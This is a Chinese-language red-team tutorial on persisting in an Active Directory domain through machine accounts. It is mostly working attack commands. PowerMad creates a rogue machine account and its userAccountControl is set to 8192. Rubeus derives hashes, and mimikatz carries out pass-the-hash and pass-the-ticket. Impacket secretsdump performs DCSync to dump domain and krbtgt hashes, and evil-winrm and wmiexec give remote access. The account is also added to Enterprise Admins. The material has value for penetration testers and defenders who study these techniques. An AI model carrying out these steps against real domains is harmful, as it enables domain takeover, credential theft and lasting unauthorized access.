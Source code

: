 
## 如何使用机器账户进行域维权

- - -

## [0x00 前言](#toc_0x00)

机器账户在许多技术中可以用于提权或横向移动，如使用机器账户的委派进行 dcsyn 了上述作用，使用机器账户也可进行维权操作。我们可以将任意计算机账户添加到高权限组 (例如 Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的 userAccountControl 属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如 Dcsync 拖取域内 hash。

除了上述作用，使用机器账户也可进行域维权操作。我们可以将任意计算机账户添加到高权限组 (例如 Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的`userAccountControl`属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如 Dcsync 拖取域内 hash。

## [0x01 userAccountControl 说明](#toc_0x01-useraccountcontrol)

默认的情况下，域中的标准用户最多可以创建 10 个机器账户，这是由**ms-DS-MachineAccountQuota**进行设定的。我们可以使用 Powermad 等工具从加入域和未加入域的主机中进行添加账户操作。但为了让机器账户在域中显示为域控制器，我们还需要将`userAccountControl`属性设置为 0x2000(SERVER\_TRUST\_ACCOUNT) 的值。0x2000 换算为十进制数字为 8192.修改此属性需要域管理员级别的权限。下面我们从 ADSI 编辑器中进行修改，改为 8192  
[![image.png](assets/1698894631-574c27196eb8c4ce09ea680f655ffa90.png)](https://storage.tttang.com/media/attachment/2022/02/19/da789952-56e5-4424-8a42-861b724b2672.png)

## [0x02 PowerMad+Active Directory 组合：](#toc_0x02-powermadactive-directory)

### [添加机器账户](#toc_)

我们在进行维权时，可以从利用工具从命令行创建机器账户。例如 Standln、SharpMad 以及 PowerMad 等工具；下面展示如何利用 PowerMad 在域内添加一个机器账户。

```bash
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount Nayon -Domain attack.local -DomainController dc.attack.local
```

[![image.png](assets/1698894631-fe369f18f15e414c7cfd8d3f46a11bf2.png)](https://storage.tttang.com/media/attachment/2022/02/19/5386ea9f-a3b5-496e-9177-b79d6bcdfc34.png)  
此时我们便添加机器账户成功了，利用如下命令查看：

```bash
net group "domain computers" /domain
```

[![image.png](assets/1698894631-45925d56f973b23cffc2ff57f74bb4a4.png)](https://storage.tttang.com/media/attachment/2022/02/19/cb758965-fbeb-423e-825a-478fce1708c9.png)

### [修改机器账户 userAccountControl 属性值](#toc_useraccountcontrol)

我们所创建的这台机器账户 primarygroupid 经过查询可知是 515，他是域组的 RID，表示这是一台域计算机，利用 Active-Module 模块，使用域管权限账户为计算机账户 Nayon 修改`userAccountControl`值为 8192，则 primarygroupid 将更改为属于域控制器（可写）的 516。

```bash
Get-ADComputer Nayon -pro * | Select-object name, primarygroupid, useraccountcontrol
Set-ADComputer Nayon -replace @{ "userAccountcontrol" = 8192 }
```

[![image.png](assets/1698894631-d78f511a7a2fe639968ed71b92e5b8f6.png)](https://storage.tttang.com/media/attachment/2022/02/19/df2793c3-84a9-4005-be66-2f932c5d597b.png)

此处为执行效果。

### [获得机器账户 hash](#toc_hash)

由于我们已知机器账户的密码，因此我们可以利用它的 NTLM、aes128、aes256 hash 来进行 pth，用于获得一个拥有域控制器权限的会话。

利用 Rubes 将 Nayon 账户的明文密码转为 NTLM hash，用于维权时进行的 pth。

```bash
Rubeus.exe hash /user:Nayon /password:Password@1! /domain:attack.local
```

[![image.png](assets/1698894631-8f4c55a07a3ed0f29d3b2aaf45006174.png)](https://storage.tttang.com/media/attachment/2022/02/19/e24b6e10-0f8b-453a-a9d4-8f0a51cf4ccf.png)  
如图所示，成功拿到了机器账户的 hash。

### [利用方式：](#toc__1)

#### [PTH 传递获得权限](#toc_pth)

在域内机器上利用 mimikatz 进行 pth 攻击，成功弹回具有 Nayon 用户权限的新会话。

```bash
sekurlsa::pth /user:Nayon /domain:attack.local /aes128:95F9380561068098A673F425207EFA0D
```

[![image.png](assets/1698894631-35429b832ffec4a3821169371e123d90.png)](https://storage.tttang.com/media/attachment/2022/02/19/46e96116-5e33-41e4-832f-8bd5c06b13de.png)  
**注意：此处拿到的会话，唯有域用户处于高权限组内才可使用 dcsync 获得域内 hash。**

#### [利用 PTT 获得权限](#toc_ptt)

由于 PTH 是需要本地管理员权限的，若我们此时连本地管理员权限都没有，我们还可以使用 mimikatz 自带的 ptt 功能拿到相应权限。

**注意：此处拿到的会话，本人本地测试即使是将机器用户的`userAccountConrol`属性值改为 8192 也无法执行 dcsync 获得域内 hash，唯有划入域内高权限组内可以使用机器账户权限执行 dcsync。**

利用利用 Rubes 申请拿到机器账户的 hash

```bash
Rubeus.exe hash /user:Nayon /password:123456 /domain:attack.local
```

使用 keke 申请 tgt 票据，用于下一步的 ptt 攻击

```bash
tgt::ask /user:Nayon2 /domain:attack.local /ntlm:32ED87BDB5FDC5E9CBA88547376818D4
```

[![image.png](assets/1698894631-a5f7c1a85d1897ed828c3e27888b7084.png)](https://storage.tttang.com/media/attachment/2022/02/19/cde4091a-1b95-4430-80f7-baa9fcfa77c5.png)

```bash
kerberos::ptt  TGT_Nayon@ATTACK.LOCAL_krbtgt~attack.local@ATTACK.LOCAL.kirbi
```

[![image.png](assets/1698894631-7ff2850feb92c44ed2a0ecbd110c54c4.png)](https://storage.tttang.com/media/attachment/2022/02/19/8092c95f-47e4-474e-a79a-023103564a12.png)  
此时成功拿到域内 hash

#### [利用 impacket 套件执行 dcsync](#toc_impacketdcsync)

使用 Impacket 套件中的 secretsdump.py 脚本，结合域内机器账户的凭证拖取域内 hash

```bash
python3 secretsdump.py attack.local/Nayon\$:'Password@1!'@10.10.10.165 -just-dc
```

[![image.png](assets/1698894631-4e8eceb048d8b5db4acbbd1cd180f7f1.png)](https://storage.tttang.com/media/attachment/2022/02/19/07bf8a43-30cb-4226-a8d5-9da859f3310b.png)  
利用其中的域管 NTLM hash 与域控机进行通信

#### [Evil-WinRM 通过 WinRM 远程链接](#toc_evil-winrmwinrm)

前提是域管开启 WinRM 服务，默认端口 5985

指定域管用户以及域管用户的 NTLM hash 远程链接

```bash
evil-winrm -i 10.10.10.165 -u administrator -H dbf36575210cc5a38ab4050cc6a2e9aa
```

[![image.png](assets/1698894631-4bc42f9e8d83f85ed04a276867f05930.png)](https://storage.tttang.com/media/attachment/2022/02/19/bce64d3c-5ea0-4001-ab7e-284f3ad009fa.png)

#### [Impacket 套件 wmiexec.py 远程链接](#toc_impacketwmiexecpy)

```bash
python3 wmiexec.py -hash dbf36575210cc5a38ab4050cc6a2e9aa administrator@10.10.10.165
```

[![image.png](assets/1698894631-ebef7f9e3240b7e2956a99ba928de237.png)](https://storage.tttang.com/media/attachment/2022/02/19/a2efb02a-10bc-4e09-abce-170d6400fcf6.png)

### [加入高权限用户组用以维权](#toc__2)

除去域用户之外，域内机器账户也可以添加到高权限用户组中用以维权。利用 Active Directory 模块查询域管用户所在的用户组。

```bash
Get-ADGroupMember "administrators"
```

[![image.png](assets/1698894631-d13cc292a588fa657ca7253c64d88c3f.png)](https://storage.tttang.com/media/attachment/2022/02/19/0f1039f6-54c2-42a2-974a-b8e0bddfa8fa.png)

使用域管权限的会话添加机器账户 Nayon$到高权限用户组内。

可加入 Enterprise Admins、Administrators、Domain Admins 等高权限组内用以维权。

```bash
net group "Enterprise admins" Nayon$ /add /domain
```

利用 net group 查看是否被添加成功

```bash
net group "Enterprise admins" /domain
```

[![image.png](assets/1698894631-8488cb4aa17aa62247c338fadc00eaf4.png)](https://storage.tttang.com/media/attachment/2022/02/19/2e9f88bc-cade-430c-8a01-ae5e39dd59aa.png)

此时我们便可以使用 Impacket 中的 secretsdump 项目获得域内 hash

```bash
python3 secretsdump.py attack.local/Nayon\$:'123456'@10.10.10.165 -just-dc-user krbtgt
```

[![image.png](assets/1698894631-c6cd97c0ef620c54209f5b646598cbfe.png)](https://storage.tttang.com/media/attachment/2022/02/19/956559a3-f651-4e19-99b2-01dbde141504.png)

参考链接： 
[https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/](https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/)

- - -
